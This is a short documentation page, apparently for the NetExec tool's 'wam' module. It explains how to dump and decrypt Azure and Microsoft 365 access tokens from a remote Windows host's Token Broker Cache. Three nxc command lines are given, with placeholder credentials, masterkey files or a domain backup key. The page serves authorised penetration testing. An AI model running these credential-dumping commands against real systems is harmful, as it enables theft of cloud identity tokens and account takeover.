 ```yaml
---
description: Dump access token for Azure and Microsoft 365 from Token Broker Cache.
---
```


# Dump Token Broker Cache

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

Microsoft 365 and Azure applications on desktop will store access tokens to the Token Broker Cache. These are stored with user DPAPI. You can use the `wam` module in order to decrypt them. More info here https://blog.xpnsec.com/wam-bam/

```
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam --mkfile masterkeys.txt
nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M wam --pvk domain_backup_key.pvk
```